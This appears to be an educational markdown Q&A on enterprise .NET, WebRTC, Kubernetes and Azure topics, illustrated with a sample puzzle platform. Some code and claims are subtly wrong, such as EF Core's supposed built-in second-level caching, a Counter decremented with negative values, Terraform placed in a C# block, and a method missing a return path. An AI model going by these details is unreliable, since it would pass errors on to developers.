


# Enterprise-Ready Development Q&A

This document provides comprehensive answers to common questions about enterprise-ready development, using the Collaborative Puzzle Platform as a teaching example.

## Table of Contents

1. [Entity Framework Core vs Dapper](#1-why-use-efcore-in-this-project-and-not-dapper-why-in-general)
2. [WebRTC Peer Connections](#2-what-is-the-simple-peer-in-webrtc)
3. [Application Gateway and WebSockets](#3-how-does-application-gateway-integrate-with-websockets)
4. [Kubernetes File Formats](#4-are-all-files-in-k8s-folders-yaml)
5. [Swashbuckle](#5-what-is-swashbuckle)
6. [MessagePack](#6-what-is-messagepack)
7. [ICE Servers in WebRTC](#7-what-is-ice-server-for-webrtc)
8. [WebRTC and TURN Correlation](#8-webrtc-turn---how-do-they-correlate)
9. [Horizontal Pod Autoscaling](#9-what-is-horizontal-pod-auto-scaling)
10. [Azure Front Door](#10-what-does-azure-front-door-do-how-do-we-choose-it-as-a-cdn-vs-another)

---

## 1. Why use EFCore in this project and not Dapper? Why in general?

### Answer:

Entity Framework Core (EF Core) was chosen for this project over Dapper for several enterprise-ready reasons:

**In This Project Specifically:**

```csharp
// Example from our project - Complex relationships handled automatically
public class PuzzleSession
{
    public Guid Id { get; set; }
    public virtual Puzzle Puzzle { get; set; }
    public virtual ICollection<SessionParticipant> Participants { get; set; }
    public virtual ICollection<ChatMessage> ChatMessages { get; set; }
}

// EF Core handles all the joins and lazy loading
var session = await _context.PuzzleSessions
    .Include(s => s.Puzzle)
    .Include(s => s.Participants)
        .ThenInclude(p => p.User)
    .FirstOrDefaultAsync(s => s.Id == sessionId);
```

**EF Core Advantages:**
1. **Change Tracking**: Automatic tracking of entity changes
2. **Migrations**: Database schema versioning and deployment
3. **LINQ Support**: Type-safe queries with IntelliSense
4. **Relationship Management**: Automatic handling of foreign keys and navigation properties
5. **Unit of Work Pattern**: Built-in with DbContext
6. **Caching**: First and second-level caching out of the box

**When to Use Dapper:**
```csharp
// Example of where Dapper would excel
public async Task<IEnumerable<PuzzleStatistics>> GetPuzzleStatistics()
{
    using var connection = new SqlConnection(connectionString);
    return await connection.QueryAsync<PuzzleStatistics>(@"
        SELECT p.Id, p.Title, COUNT(s.Id) as SessionCount, 
               AVG(s.CompletionTime) as AvgCompletionTime
        FROM Puzzles p
        LEFT JOIN PuzzleSessions s ON p.Id = s.PuzzleId
        GROUP BY p.Id, p.Title
        HAVING COUNT(s.Id) > 100
    ");
}
```

**General Guidelines:**
- **Use EF Core when**: Building complex domain models, need migrations, want rapid development, team is more familiar with ORM patterns
- **Use Dapper when**: Need maximum performance, working with complex SQL/stored procedures, simple CRUD operations, read-heavy scenarios

**Hybrid Approach in Enterprise:**
```csharp
// Use EF Core for writes and complex queries
public class PuzzleRepository : IPuzzleRepository
{
    private readonly ApplicationDbContext _context;
    private readonly IDbConnection _connection;

    public async Task<Puzzle> CreatePuzzleAsync(Puzzle puzzle)
    {
        // EF Core for complex writes with relationships
        _context.Puzzles.Add(puzzle);
        await _context.SaveChangesAsync();
        return puzzle;
    }

    public async Task<IEnumerable<PuzzleRanking>> GetTopPuzzlesAsync()
    {
        // Dapper for performance-critical reads
        return await _connection.QueryAsync<PuzzleRanking>(
            "sp_GetTopPuzzlesWithStats", 
            commandType: CommandType.StoredProcedure
        );
    }
}
```

---

## 2. What is the Simple Peer in WebRTC?

### Answer:

Simple Peer is a JavaScript library that provides a simplified wrapper around the WebRTC API, making peer-to-peer connections easier to implement.

**Core WebRTC Complexity:**
```javascript
// Raw WebRTC implementation (complex)
const pc = new RTCPeerConnection(configuration);
const dc = pc.createDataChannel('chat');

pc.onicecandidate = event => {
    if (event.candidate) {
        // Send candidate to remote peer via signaling server
    }
};

pc.createOffer()
    .then(offer => pc.setLocalDescription(offer))
    .then(() => {
        // Send offer to remote peer
    });
```

**Simple Peer Simplification:**
```javascript
// Simple Peer implementation
const peer = new SimplePeer({
    initiator: true,
    trickle: false
});

peer.on('signal', data => {
    // Send data to remote peer
});

peer.on('connect', () => {
    peer.send('Hello!');
});

peer.on('data', data => {
    console.log('Received:', data);
});
```

**In Our Puzzle Platform Context:**
```javascript
// Real-world implementation for puzzle piece synchronization
class PuzzlePeerConnection {
    constructor(puzzleId, userId) {
        this.peer = new SimplePeer({
            initiator: false,
            config: {
                iceServers: [
                    { urls: 'stun:stun.l.google.com:19302' },
                    { 
                        urls: 'turn:turnserver.com:3478',
                        username: 'user',
                        credential: 'pass'
                    }
                ]
            }
        });

        this.peer.on('signal', signalData => {
            // Send via SignalR to coordinate
            puzzleHub.invoke('SendWebRTCSignal', puzzleId, userId, signalData);
        });

        this.peer.on('data', data => {
            const move = JSON.parse(data);
            updatePuzzlePiece(move.pieceId, move.x, move.y);
        });
    }

    sendPieceMove(pieceId, x, y) {
        this.peer.send(JSON.stringify({ pieceId, x, y }));
    }
}
```

**Key Benefits:**
1. **Abstraction**: Hides WebRTC complexity
2. **Event-Driven**: Simple event-based API
3. **Cross-Browser**: Handles browser differences
4. **Minimal Setup**: Quick to implement
5. **Reliable**: Handles connection state management

---

## 3. How does Application Gateway integrate with WebSockets?

### Answer:

Azure Application Gateway supports WebSocket connections natively, providing load balancing and SSL termination for real-time applications.

**Architecture Diagram:**
```
Client <--WebSocket--> Application Gateway <--WebSocket--> Backend Servers
         (wss://)        (SSL Termination)      (ws:// or wss://)
```

**Configuration Example:**
```yaml
# Application Gateway ARM Template snippet
{
  "type": "Microsoft.Network/applicationGateways",
  "properties": {
    "backendHttpSettingsCollection": [{
      "name": "websocket-settings",
      "properties": {
        "port": 80,
        "protocol": "Http",
        "cookieBasedAffinity": "Enabled",
        "affinityCookieName": "ApplicationGatewayAffinity",
        "requestTimeout": 86400  # 24 hours for WebSocket
      }
    }],
    "httpListeners": [{
      "name": "websocket-listener",
      "properties": {
        "protocol": "Https",
        "requireServerNameIndication": true
      }
    }]
  }
}
```

**SignalR Integration in Our Project:**
```csharp
// Startup configuration for SignalR with Application Gateway
public void ConfigureServices(IServiceCollection services)
{
    services.AddSignalR(options =>
    {
        options.EnableDetailedErrors = true;
        options.KeepAliveInterval = TimeSpan.FromSeconds(10);
        options.ClientTimeoutInterval = TimeSpan.FromSeconds(30);
    })
    .AddStackExchangeRedis(Configuration.GetConnectionString("Redis"), options =>
    {
        options.Configuration.ChannelPrefix = "PuzzleApp";
    });

    // Configure for Application Gateway
    services.Configure<ForwardedHeadersOptions>(options =>
    {
        options.ForwardedHeaders = ForwardedHeaders.XForwardedFor | 
                                   ForwardedHeaders.XForwardedProto;
        options.KnownNetworks.Clear();
        options.KnownProxies.Clear();
    });
}

public void Configure(IApplicationBuilder app)
{
    app.UseForwardedHeaders();
    app.UseWebSockets();
    
    app.UseEndpoints(endpoints =>
    {
        endpoints.MapHub<PuzzleHub>("/hubs/puzzle", options =>
        {
            options.Transports = HttpTransportType.WebSockets | 
                                HttpTransportType.LongPolling;
        });
    });
}
```

**Key Considerations:**

1. **Session Affinity**: Required for WebSocket connections
```csharp
// Client-side configuration
const connection = new signalR.HubConnectionBuilder()
    .withUrl("/hubs/puzzle", {
        skipNegotiation: true,
        transport: signalR.HttpTransportType.WebSockets
    })
    .build();
```

2. **Health Probes**: Custom probes for WebSocket endpoints
```csharp
app.MapHealthChecks("/health/websocket", new HealthCheckOptions
{
    Predicate = check => check.Tags.Contains("websocket"),
    ResponseWriter = UIResponseWriter.WriteHealthCheckUIResponse
});
```

3. **Timeout Settings**: Extended timeouts for persistent connections
4. **SSL/TLS**: Termination at gateway level for performance

---

## 4. Are all files in K8s folders YAML?

### Answer:

Not necessarily. While YAML is the most common format for Kubernetes manifests, K8s folders can contain various file types:

**Common File Types in K8s Folders:**

```bash
k8s/
├── manifests/
│   ├── deployment.yaml          # Standard YAML
│   ├── service.yml             # Alternative YAML extension
│   ├── configmap.json          # JSON is also valid
│   └── ingress.yaml
├── helm/
│   ├── Chart.yaml
│   ├── values.yaml
│   └── templates/
│       └── deployment.yaml     # Helm templates (YAML with Go templating)
├── kustomization.yaml          # Kustomize configuration
├── scripts/
│   ├── deploy.sh              # Shell scripts
│   └── rollback.ps1           # PowerShell scripts
└── secrets/
    ├── tls.crt                # Certificate files
    └── tls.key                # Key files
```

**Format Examples:**

1. **YAML Format (Most Common):**
```yaml
apiVersion: apps/v1
kind: Deployment
metadata:
  name: puzzle-api
spec:
  replicas: 3
  selector:
    matchLabels:
      app: puzzle-api
```

2. **JSON Format (Valid Alternative):**
```json
{
  "apiVersion": "apps/v1",
  "kind": "Deployment",
  "metadata": {
    "name": "puzzle-api"
  },
  "spec": {
    "replicas": 3,
    "selector": {
      "matchLabels": {
        "app": "puzzle-api"
      }
    }
  }
}
```

3. **Helm Templates (YAML with Variables):**
```yaml
apiVersion: apps/v1
kind: Deployment
metadata:
  name: {{ include "puzzle.fullname" . }}
spec:
  replicas: {{ .Values.replicaCount }}
  selector:
    matchLabels:
      app: {{ include "puzzle.name" . }}
```

4. **Kustomize Files:**
```yaml
# kustomization.yaml
resources:
  - deployment.yaml
  - service.yaml
patchesStrategicMerge:
  - replica-patch.yaml
configMapGenerator:
  - name: puzzle-config
    files:
      - config.properties
```

**Best Practices:**
- Use YAML for readability and comments
- Keep sensitive data in separate secret files
- Use Helm or Kustomize for environment-specific configurations
- Include shell scripts for complex deployment procedures
- Store certificates and keys securely (not in Git)

---

## 5. What is Swashbuckle?

### Answer:

Swashbuckle is a NuGet package that automatically generates interactive API documentation (Swagger/OpenAPI) for ASP.NET Core Web APIs.

**Implementation in Our Project:**

```csharp
// Program.cs configuration
builder.Services.AddEndpointsApiExplorer();
builder.Services.AddSwaggerGen(options =>
{
    options.SwaggerDoc("v1", new OpenApiInfo
    {
        Title = "Collaborative Puzzle API",
        Version = "v1",
        Description = "Real-time puzzle platform demonstrating enterprise patterns",
        Contact = new OpenApiContact
        {
            Name = "Development Team",
            Email = "dev@puzzleplatform.com"
        }
    });

    // Add JWT authentication to Swagger
    options.AddSecurityDefinition("Bearer", new OpenApiSecurityScheme
    {
        Description = "JWT Authorization header using the Bearer scheme",
        Name = "Authorization",
        In = ParameterLocation.Header,
        Type = SecuritySchemeType.ApiKey,
        Scheme = "Bearer"
    });

    options.AddSecurityRequirement(new OpenApiSecurityRequirement
    {
        {
            new OpenApiSecurityScheme
            {
                Reference = new OpenApiReference
                {
                    Type = ReferenceType.SecurityScheme,
                    Id = "Bearer"
                }
            },
            Array.Empty<string>()
        }
    });

    // Include XML comments
    var xmlFile = $"{Assembly.GetExecutingAssembly().GetName().Name}.xml";
    var xmlPath = Path.Combine(AppContext.BaseDirectory, xmlFile);
    options.IncludeXmlComments(xmlPath);

    // Custom operation filters
    options.OperationFilter<FileUploadOperationFilter>();
});

// Configure Swagger UI
app.UseSwagger();
app.UseSwaggerUI(options =>
{
    options.SwaggerEndpoint("/swagger/v1/swagger.json", "Puzzle API V1");
    options.RoutePrefix = string.Empty; // Serve at root
    options.DocExpansion(DocExpansion.None);
    options.DefaultModelsExpandDepth(-1); // Hide models by default
    options.EnableDeepLinking();
    options.DisplayOperationId();
});
```

**Custom Operation Filter Example:**
```csharp
public class FileUploadOperationFilter : IOperationFilter
{
    public void Apply(OpenApiOperation operation, OperationFilterContext context)
    {
        var fileParams = context.MethodInfo.GetParameters()
            .Where(p => p.ParameterType == typeof(IFormFile));

        if (!fileParams.Any()) return;

        operation.RequestBody = new OpenApiRequestBody
        {
            Content = new Dictionary<string, OpenApiMediaType>
            {
                ["multipart/form-data"] = new OpenApiMediaType
                {
                    Schema = new OpenApiSchema
                    {
                        Type = "object",
                        Properties = new Dictionary<string, OpenApiSchema>
                        {
                            ["file"] = new OpenApiSchema
                            {
                                Type = "string",
                                Format = "binary"
                            }
                        }
                    }
                }
            }
        };
    }
}
```

**Benefits for Enterprise Development:**
1. **Auto-generated Documentation**: Always in sync with code
2. **Interactive Testing**: Test APIs directly from browser
3. **Client SDK Generation**: Generate client libraries
4. **API Versioning Support**: Document multiple API versions
5. **Security Documentation**: OAuth2/JWT flows documented

---

## 6. What is MessagePack?

### Answer:

MessagePack is an efficient binary serialization format that's faster and more compact than JSON, making it ideal for real-time applications.

**Comparison with JSON:**
```csharp
// JSON representation (82 bytes)
{
  "pieceId": "550e8400-e29b-41d4-a716-446655440000",
  "x": 150.5,
  "y": 200.75,
  "rotation": 90
}

// MessagePack representation (~40 bytes)
[Binary representation - 50% smaller]
```

**Implementation in Our SignalR Hub:**
```csharp
// Configure MessagePack for SignalR
builder.Services.AddSignalR()
    .AddMessagePackProtocol(options =>
    {
        options.SerializerOptions = MessagePackSerializerOptions.Standard
            .WithResolver(ContractlessStandardResolver.Instance)
            .WithCompression(MessagePackCompression.Lz4BlockArray);
    });

// Define MessagePack contracts
[MessagePackObject]
public class PuzzlePieceMove
{
    [Key(0)]
    public Guid PieceId { get; set; }
    
    [Key(1)]
    public double X { get; set; }
    
    [Key(2)]
    public double Y { get; set; }
    
    [Key(3)]
    public int Rotation { get; set; }
    
    [Key(4)]
    public DateTime Timestamp { get; set; }
}

// Hub method using MessagePack
public async Task MovePiece(PuzzlePieceMove move)
{
    // Validate move
    if (await _pieceService.TryLockPieceAsync(move.PieceId, Context.UserIdentifier))
    {
        // Broadcast to all clients in the session
        await Clients.Group($"puzzle-{SessionId}")
            .SendAsync("PieceMoved", move);
            
        // Update database asynchronously
        _ = _pieceService.UpdatePiecePositionAsync(move);
    }
}
```

**Performance Benchmark:**
```csharp
[MemoryDiagnoser]
public class SerializationBenchmark
{
    private PuzzlePieceMove _move = new() 
    { 
        PieceId = Guid.NewGuid(), 
        X = 150.5, 
        Y = 200.75, 
        Rotation = 90 
    };

    [Benchmark(Baseline = true)]
    public byte[] JsonSerialize()
    {
        return JsonSerializer.SerializeToUtf8Bytes(_move);
    }

    [Benchmark]
    public byte[] MessagePackSerialize()
    {
        return MessagePackSerializer.Serialize(_move);
    }
}

// Results:
// | Method               | Mean     | Allocated |
// |-------------------- |---------:|----------:|
// | JsonSerialize       | 450.2 ns | 184 B     |
// | MessagePackSerialize| 125.7 ns | 88 B      |
```

**When to Use MessagePack:**
1. **High-frequency updates**: Real-time gaming, collaborative editing
2. **Mobile applications**: Reduced bandwidth usage
3. **IoT scenarios**: Minimal payload size
4. **Large-scale systems**: Reduced server load

**Trade-offs:**
- ✅ Smaller payload size (50-70% reduction)
- ✅ Faster serialization/deserialization
- ✅ Lower memory allocation
- ❌ Not human-readable
- ❌ Requires schema coordination
- ❌ Less tooling support than JSON

---

## 7. What is ICE Server for WebRTC?

### Answer:

ICE (Interactive Connectivity Establishment) servers help WebRTC peers discover the best path to connect, handling NAT traversal and firewall issues.

**ICE Server Types:**

1. **STUN (Session Traversal Utilities for NAT):**
   - Discovers public IP address
   - Determines NAT type
   - Free public servers available

2. **TURN (Traversal Using Relays around NAT):**
   - Relays traffic when direct connection fails
   - Requires bandwidth and hosting
   - Necessary for ~10-20% of connections

**Configuration in Our Project:**
```javascript
// Client-side WebRTC configuration
const rtcConfig = {
    iceServers: [
        // Public STUN servers
        { urls: 'stun:stun.l.google.com:19302' },
        { urls: 'stun:stun1.l.google.com:19302' },
        
        // Our TURN server (Coturn in Docker)
        {
            urls: 'turn:turn.puzzleplatform.com:3478',
            username: 'puzzle-user',
            credential: generateTurnCredential() // Time-limited credentials
        },
        
        // Backup TURN with TLS
        {
            urls: 'turns:turn.puzzleplatform.com:5349',
            username: 'puzzle-user',
            credential: generateTurnCredential()
        }
    ],
    iceCandidatePoolSize: 10 // Pre-gather candidates
};

// Credential generation for security
function generateTurnCredential() {
    const timestamp = Math.floor(Date.now() / 1000) + 86400; // 24h validity
    const username = `${timestamp}:puzzle-user`;
    const credential = hmacSha1(username, TURN_SECRET);
    return { username, credential };
}
```

**Server-Side Configuration (Coturn):**
```bash
# /etc/turnserver.conf
listening-port=3478
tls-listening-port=5349
fingerprint
lt-cred-mech
use-auth-secret
static-auth-secret=your-secret-key
realm=puzzleplatform.com
total-quota=100
bps-quota=0
stale-nonce=600
cert=/etc/ssl/certs/turn.pem
pkey=/etc/ssl/private/turn.key
log-file=/var/log/turnserver.log
no-multicast-peers
no-cli
no-tlsv1
no-tlsv1_1
```

**Docker Compose Setup:**
```yaml
coturn:
  image: coturn/coturn:latest
  ports:
    - "3478:3478/udp"
    - "3478:3478/tcp"
    - "5349:5349/tcp"
    - "49152-65535:49152-65535/udp"
  environment:
    - DETECT_EXTERNAL_IP=yes
    - EXTERNAL_IP=${EXTERNAL_IP}
  volumes:
    - ./coturn/turnserver.conf:/etc/turnserver.conf:ro
    - ./certs:/etc/ssl:ro
  networks:
    - puzzle-network
```

**Connection Flow Diagram:**
```
1. Peer A → STUN Server → Gets public IP
2. Peer B → STUN Server → Gets public IP
3. Peers exchange ICE candidates via signaling
4. Try direct connection (works ~80% of time)
5. If failed, use TURN relay
```

**Cost Optimization:**
```csharp
// Implement TURN usage monitoring
public class TurnUsageMonitor
{
    public async Task<TurnStats> GetUsageStats()
    {
        return new TurnStats
        {
            ActiveSessions = await GetActiveSessions(),
            BandwidthUsedGB = await GetBandwidthUsage(),
            EstimatedMonthlyCost = CalculateCost()
        };
    }
    
    private decimal CalculateCost()
    {
        // TURN typically uses 2x bandwidth (in + out)
        // Azure/AWS: ~$0.09/GB
        return BandwidthUsedGB * 2 * 0.09m;
    }
}
```

---

## 8. WebRTC→TURN - How do they correlate?

### Answer:

TURN is a critical component of WebRTC's ICE framework, serving as a fallback relay when direct peer-to-peer connections fail.

**Relationship Hierarchy:**
```
WebRTC
  └── ICE (Connection Establishment)
       ├── STUN (NAT Discovery)
       └── TURN (Traffic Relay)
```

**Connection Attempt Flow:**
```csharp
// Pseudo-code showing the correlation
public class WebRTCConnection
{
    private async Task<bool> EstablishConnection()
    {
        // 1. Gather ICE candidates
        var candidates = new List<IceCandidate>();
        
        // 2. Get reflexive candidate via STUN
        var stunCandidate = await GetStunCandidate();
        candidates.Add(stunCandidate);
        
        // 3. Get relay candidate via TURN (always gathered as backup)
        var turnCandidate = await GetTurnCandidate();
        candidates.Add(turnCandidate);
        
        // 4. Try connections in priority order
        foreach (var candidate in candidates.OrderBy(c => c.Priority))
        {
            if (await TryConnect(candidate))
            {
                // Log which type succeeded
                if (candidate.Type == "relay")
                {
                    LogTurnUsage(); // Monitor costs
                }
                return true;
            }
        }
        
        return false;
    }
}
```

**Real-World Statistics:**
```javascript
// Connection type monitoring
class ConnectionAnalytics {
    async analyzeConnectionTypes() {
        const stats = await pc.getStats();
        let connectionType = 'unknown';
        
        stats.forEach(report => {
            if (report.type === 'candidate-pair' && report.state === 'succeeded') {
                if (report.remoteCandidateType === 'relay' || 
                    report.localCandidateType === 'relay') {
                    connectionType = 'turn';
                } else if (report.remoteCandidateType === 'srflx' || 
                          report.localCandidateType === 'srflx') {
                    connectionType = 'stun';
                } else {
                    connectionType = 'direct';
                }
            }
        });
        
        // Typical distribution:
        // - Direct: 50-60%
        // - STUN (reflexive): 25-35%
        // - TURN (relay): 10-20%
        
        return connectionType;
    }
}
```

**Cost Implications Example:**
```yaml
# For 1000 concurrent users with 1-hour sessions
# Assuming 15% need TURN, 250kbps per user

TURN Usage Calculation:
- Users needing TURN: 150
- Bandwidth per user: 250kbps × 2 (in+out) = 500kbps
- Total bandwidth: 150 × 500kbps = 75Mbps
- Monthly data: 75Mbps × 3600s × 24h × 30d = ~24TB
- Estimated cost: 24TB × $0.09/GB = ~$2,200/month
```

**Optimization Strategies:**
```javascript
// 1. Use TURN only when necessary
const config = {
    iceTransportPolicy: 'all', // Not 'relay' unless required
    bundlePolicy: 'max-bundle', // Reduce number of connections
};

// 2. Implement connection upgrade
async function optimizeConnection() {
    // Start with TURN if behind symmetric NAT
    if (await detectSymmetricNAT()) {
        config.iceTransportPolicy = 'relay';
    }
    
    // Periodically try to upgrade to direct
    setInterval(async () => {
        if (isUsingTurn()) {
            await attemptDirectConnection();
        }
    }, 30000);
}

// 3. Regional TURN servers
const turnServers = selectNearestTurnServers(userLocation);
```

---

## 9. What is Horizontal Pod Auto Scaling?

### Answer:

Horizontal Pod Autoscaling (HPA) automatically scales the number of pod replicas based on observed metrics like CPU, memory, or custom metrics.

**Basic HPA Configuration:**
```yaml
apiVersion: autoscaling/v2
kind: HorizontalPodAutoscaler
metadata:
  name: puzzle-api-hpa
spec:
  scaleTargetRef:
    apiVersion: apps/v1
    kind: Deployment
    name: puzzle-api
  minReplicas: 2
  maxReplicas: 10
  metrics:
  - type: Resource
    resource:
      name: cpu
      target:
        type: Utilization
        averageUtilization: 70
  - type: Resource
    resource:
      name: memory
      target:
        type: Utilization
        averageUtilization: 80
  - type: Pods
    pods:
      metric:
        name: active_websocket_connections
      target:
        type: AverageValue
        averageValue: "100"
```

**Custom Metrics for Our Puzzle Platform:**
```csharp
// Expose custom metrics for HPA
public class MetricsService
{
    private readonly IMeterFactory _meterFactory;
    private readonly Meter _meter;
    private readonly Counter<int> _activeConnections;
    private readonly Histogram<double> _puzzleCompletionTime;

    public MetricsService(IMeterFactory meterFactory)
    {
        _meterFactory = meterFactory;
        _meter = _meterFactory.Create("PuzzlePlatform");
        
        _activeConnections = _meter.CreateCounter<int>(
            "puzzle_active_connections",
            description: "Number of active WebSocket connections");
            
        _puzzleCompletionTime = _meter.CreateHistogram<double>(
            "puzzle_completion_time_seconds",
            description: "Time to complete puzzles");
    }

    public void RecordConnection() => _activeConnections.Add(1);
    public void RecordDisconnection() => _activeConnections.Add(-1);
    public void RecordCompletion(double seconds) => _puzzleCompletionTime.Record(seconds);
}

// Prometheus endpoint
app.MapPrometheusScrapingEndpoint();
```

**Advanced HPA with Behavior:**
```yaml
apiVersion: autoscaling/v2
kind: HorizontalPodAutoscaler
metadata:
  name: puzzle-api-hpa-advanced
spec:
  scaleTargetRef:
    apiVersion: apps/v1
    kind: Deployment
    name: puzzle-api
  minReplicas: 2
  maxReplicas: 50
  behavior:
    scaleDown:
      stabilizationWindowSeconds: 300  # Wait 5 minutes before scaling down
      policies:
      - type: Percent
        value: 10  # Scale down by 10% at a time
        periodSeconds: 60
      - type: Pods
        value: 2   # Or remove 2 pods at a time
        periodSeconds: 60
      selectPolicy: Min  # Choose the policy that removes fewer pods
    scaleUp:
      stabilizationWindowSeconds: 60   # Scale up faster
      policies:
      - type: Percent
        value: 100  # Double the pods
        periodSeconds: 60
      - type: Pods
        value: 5    # Or add 5 pods
        periodSeconds: 60
      selectPolicy: Max  # Choose the policy that adds more pods
  metrics:
  - type: Resource
    resource:
      name: cpu
      target:
        type: Utilization
        averageUtilization: 70
  - type: External
    external:
      metric:
        name: redis_queue_length
        selector:
          matchLabels:
            queue: "puzzle-events"
      target:
        type: AverageValue
        averageValue: "30"
```

**Vertical Pod Autoscaling Integration:**
```yaml
# VPA can work with HPA for right-sizing
apiVersion: autoscaling.k8s.io/v1
kind: VerticalPodAutoscaler
metadata:
  name: puzzle-api-vpa
spec:
  targetRef:
    apiVersion: apps/v1
    kind: Deployment
    name: puzzle-api
  updatePolicy:
    updateMode: "Auto"  # Can be "Off" or "Initial"
  resourcePolicy:
    containerPolicies:
    - containerName: puzzle-api
      minAllowed:
        cpu: 100m
        memory: 128Mi
      maxAllowed:
        cpu: 2
        memory: 2Gi
```

**Best Practices:**
1. **Start Conservative**: Begin with higher thresholds and adjust
2. **Use Multiple Metrics**: Don't rely on CPU alone
3. **Test Scaling**: Load test to verify behavior
4. **Monitor Costs**: More pods = higher cloud costs
5. **Consider Cluster Autoscaler**: For node-level scaling

---

## 10. What does Azure Front Door do? How do we choose it as a CDN vs. another?

### Answer:

Azure Front Door is a global, scalable entry point that combines CDN, load balancing, WAF, and traffic acceleration in a single service.

**Architecture Overview:**
```
Users → Azure Front Door → Backend Pools
         ├── CDN (Static)     ├── App Service
         ├── WAF              ├── AKS Cluster  
         ├── Load Balancer    └── Storage
         └── SSL Termination
```

**Configuration for Our Puzzle Platform:**
```json
{
  "type": "Microsoft.Network/frontDoors",
  "name": "puzzle-platform-fd",
  "properties": {
    "routingRules": [
      {
        "name": "puzzleApiRule",
        "properties": {
          "frontendEndpoints": [{"id": "..."}],
          "acceptedProtocols": ["Http", "Https"],
          "patternsToMatch": ["/api/*"],
          "routeConfiguration": {
            "@odata.type": "#Microsoft.Azure.FrontDoor.Models.FrontdoorForwardingConfiguration",
            "backendPool": {"id": "[resourceId('Microsoft.Network/frontDoors/backendPools', 'apiPool')]"},
            "cacheConfiguration": {
              "cacheDuration": "PT5M",
              "dynamicCompression": "Enabled"
            }
          }
        }
      },
      {
        "name": "puzzleStaticRule",
        "properties": {
          "patternsToMatch": ["/images/*", "/puzzles/*", "*.jpg", "*.png"],
          "routeConfiguration": {
            "backendPool": {"id": "[resourceId('Microsoft.Network/frontDoors/backendPools', 'storagePool')]"},
            "cacheConfiguration": {
              "cacheDuration": "P30D",
              "queryParameterStripDirective": "StripAll"
            }
          }
        }
      }
    ],
    "healthProbeSettings": [
      {
        "name": "apiHealthProbe",
        "properties": {
          "path": "/health",
          "protocol": "Https",
          "intervalInSeconds": 30,
          "healthProbeMethod": "HEAD"
        }
      }
    ],
    "loadBalancingSettings": [
      {
        "name": "loadBalancingSettings",
        "properties": {
          "sampleSize": 4,
          "successfulSamplesRequired": 2,
          "additionalLatencyMilliseconds": 50
        }
      }
    ]
  }
}
```

**Comparison Matrix:**

| Feature | Azure Front Door | CloudFlare | AWS CloudFront | Akamai |
|---------|-----------------|------------|----------------|---------|
| **Global PoPs** | 150+ | 275+ | 410+ | 4000+ |
| **WAF** | Built-in | Built-in | AWS WAF | Built-in |
| **Load Balancing** | Yes | Yes | No (use ALB) | Yes |
| **WebSocket** | Yes | Yes (Enterprise) | Yes | Yes |
| **Pricing** | $35/month base | $20-200/month | Pay-per-use | Enterprise |
| **Azure Integration** | Native | Manual | Manual | Manual |
| **SSL Certificates** | Free managed | Free | Free | Varies |
| **DDoS Protection** | Standard | Yes | AWS Shield | Yes |
| **Custom Rules** | Yes | Yes | Limited | Yes |
| **Analytics** | Azure Monitor | Built-in | CloudWatch | Built-in |

**Decision Factors for Our Platform:**

```csharp
public class CdnSelectionCriteria
{
    public CdnRecommendation EvaluateCdn(ProjectRequirements requirements)
    {
        // Azure Front Door is best when:
        if (requirements.PrimaryCloud == "Azure" &&
            requirements.NeedsWebSockets &&
            requirements.NeedsWAF &&
            requirements.GlobalUsers)
        {
            return new CdnRecommendation
            {
                Provider = "Azure Front Door",
                Reasons = new[]
                {
                    "Native Azure integration",
                    "Built-in WAF without extra cost",
                    "WebSocket support",
                    "Integrated with Azure Monitor"
                },
                EstimatedMonthlyCost = CalculateFrontDoorCost(requirements)
            };
        }
        
        // CloudFlare when:
        if (requirements.MultiCloud &&
            requirements.BudgetSensitive &&
            requirements.SimpleCaching)
        {
            return new CdnRecommendation
            {
                Provider = "CloudFlare",
                Reasons = new[]
                {
                    "Multi-cloud friendly",
                    "Generous free tier",
                    "Easy setup",
                    "Good DDoS protection"
                }
            };
        }
        
        // AWS CloudFront when:
        if (requirements.PrimaryCloud == "AWS" &&
            requirements.HighBandwidth)
        {
            return new CdnRecommendation
            {
                Provider = "AWS CloudFront",
                Reasons = new[]
                {
                    "AWS ecosystem integration",
                    "Pay-per-use pricing",
                    "Lambda@Edge capabilities"
                }
            };
        }
    }
}
```

**Front Door Specific Features:**
```csharp
// Custom domain and SSL
resource "azurerm_frontdoor_custom_https_configuration" "puzzle" {
  frontend_endpoint_id = azurerm_frontdoor.main.frontend_endpoints["puzzleplatform"]
  
  custom_https_provisioning_enabled = true
  custom_https_configuration {
    certificate_source = "FrontDoor"
  }
}

// WAF Policy
resource "azurerm_frontdoor_firewall_policy" "puzzle" {
  name                = "puzzleWAF"
  resource_group_name = azurerm_resource_group.main.name
  
  enabled = true
  mode    = "Prevention"
  
  managed_rule {
    type    = "DefaultRuleSet"
    version = "1.0"
  }
  
  custom_rule {
    name     = "RateLimitRule"
    priority = 1
    type     = "RateLimiting"
    
    rate_limit_duration_in_minutes = 1
    rate_limit_threshold          = 100
    
    match_condition {
      match_variable = "RequestUri"
      operator       = "Contains"
      match_values   = ["/api/"]
    }
    
    action = "Block"
  }
}
```

**Cost Optimization:**
```yaml
# Implement caching rules to reduce origin traffic
- Rule: Cache puzzle images for 30 days
- Rule: Cache API responses for 5 minutes
- Rule: Don't cache user-specific data
- Rule: Use compression for text/json
- Estimated savings: 70% reduction in origin bandwidth
```

## 11. What is HSTS?

**HTTP Strict Transport Security (HSTS)** is a web security policy mechanism that helps protect websites against man-in-the-middle attacks such as protocol downgrade attacks and cookie hijacking. It allows web servers to declare that web browsers should automatically interact with it using only HTTPS connections, never HTTP.

